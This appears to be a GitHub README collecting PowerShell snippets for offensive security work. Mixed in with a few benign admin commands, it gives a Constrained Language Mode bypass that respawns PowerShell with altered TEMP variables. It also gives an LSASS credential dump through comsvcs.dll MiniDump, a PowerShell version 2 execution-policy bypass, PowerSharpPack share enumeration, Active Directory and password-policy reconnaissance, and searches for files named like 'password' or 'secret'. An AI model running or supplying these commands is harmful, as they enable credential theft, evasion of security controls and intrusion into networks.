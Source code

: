 # Powershell_stuff

#Check if Full or Constrained Language Mode is in place.   
	`$ExecutionContext.SessionState.LanguageMode   `

#Check if CredGuard is switched ON. (True = On)

	'CredentialGuard' -match ((Get-ComputerInfo).DeviceGuardSecurityServicesConfigured)   

#Set Proxy Settings Manually in Powershell (enter in Creds)

	$Wcl=New-Object System.Net.WebClient   
	$Creds=Get-Credential   
	$Wcl.Proxy.Credentials=$Creds   
	Invoke-WebRequest http://www.google.co.uk   

If you get a 200 back you're all good.

# CLM Bypass   
	#Path to Powershell
	$CMDLine = "$PSHOME\powershell.exe"

	#Getting existing env vars
	[String[]] $EnvVarsExceptTemp = Get-ChildItem Env:* -Exclude "TEMP","TMP"| % { "$($_.Name)=$($_.Value)" }

	#Custom TEMP and TMP
	$TEMPBypassPath = "Temp=C:\windows\temp"
	$TMPBypassPath = "TMP=C:\windows\temp"

	#Add the to the list of vars
	$EnvVarsExceptTemp += $TEMPBypassPath
	$EnvVarsExceptTemp += $TMPBypassPath

	#Define the start params
	$StartParamProperties = @{ EnvironmentVariables = $EnvVarsExceptTemp }
	$StartParams = New-CimInstance -ClassName Win32_ProcessStartup -ClientOnly -Property $StartParamProperties

	#Start a new powershell using the new params
	Invoke-CimMethod -ClassName Win32_Process -MethodName Create -Arguments @{
	CommandLine = $CMDLine
	ProcessStartupInformation = $StartParams
	}

	#lsass dump
	$processes = Get-Process
	$location = Get-Location

#.NET Framework Versions in place
```
Get-ChildItem 'HKLM:\SOFTWARE\Microsoft\NET Framework Setup\NDP' -Recurse |
Get-ItemProperty -name Version, Release -EA 0 |
Where-Object { $_.PSChildName -match '^(?!S)\p{L}'} |
Select-Object @{name = ".NET Framework"; expression = {$_.PSChildName}},
@{name = "Product"; expression = {$Lookup[$_.Release]}},Version, Release
```

#LSASS Dump
```
$dumpid = foreach ($process in $processes){if ($process.ProcessName -eq "lsass"){$process.id}}
		Write-Host "Found l s a s s process with ID $dumpid - starting dump with rundll32"
		Write-Host "Dumpfile goes to Get-Location\$env:COMPUTERNAME.log"
		rundll32 C:\Windows\System32\comsvcs.dll, MiniDump $dumpid $location\$env:COMPUTERNAME.log full | Out-Null
		Compress-Archive -Path $location\$env:COMPUTERNAME.log -DestinationPath $location\$env:COMPUTERNAME.zip -CompressionLevel NoCompression
```


#ENABLE TLS1.2 if you receive a message Regarding an ISSUE with TLS   
```
[Net.ServicePointManager]::SecurityProtocol = [Net.ServicePointManager]::SecurityProtocol -bor [Net.SecurityProtocolType]::Tls12
```

#Execute Powershell with Exec bypass and stay in Version 2
```
powershell.exe -Version 2 -ExecutionPolicy bypass
```

#Powershell Specific Tooling

# PowerSharpPack
```
PowerSharpPack -SharpShares -Command "--shares"
```

#Domain Enumeration

#Group Membership  
```
([ADSISEARCHER]"samaccountname=$('ENTERUSERNAME')").Findone().Properties.memberof -replace '^CN=([^,]+).+$','$1' | sort-object
```

#Forest Info
```
[System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()
```

#Aliases
```
dir = Get-ChildItem
```

#Current Domain Password Policy
```
$domain = [adsi](“WinNT://DOMAIN.local”)
$domain.Properties.Keys | Foreach {
  @{$_ = [string]$domain.Properties.Item($_) }
}
```


#Search for any file with the extension (.doc, .xls, .pdf) export output to 'files.csv'
```
get-childitem .\ -rec -ErrorAction SilentlyContinue -include @(‘*.doc*’,’*.xls*’,’*.pdf’)|where{!$_.PSIsContainer}|select-object FullName,@{Name=’Owner’;Expression={(Get-Acl $_.FullName).Owner}},LastAccessTime,LastWriteTime,Length|export-csv -notypeinformation -path files.csv
```

#Or if you wanted to do several wildcard searches for sensitive files (replace the terms as necessary):
```
get-childitem .\ -rec -ErrorAction SilentlyContinue -include @(‘*password*’,’*sensitive*’,’*secret*’)|where{!$_.PSIsContainer}|select-object FullName,@{Name=’Owner’;Expression={(Get-Acl $_.FullName).Owner}},LastAccessTime,LastWriteTime,Length|export-csv -notypeinformation -path files.csv
```
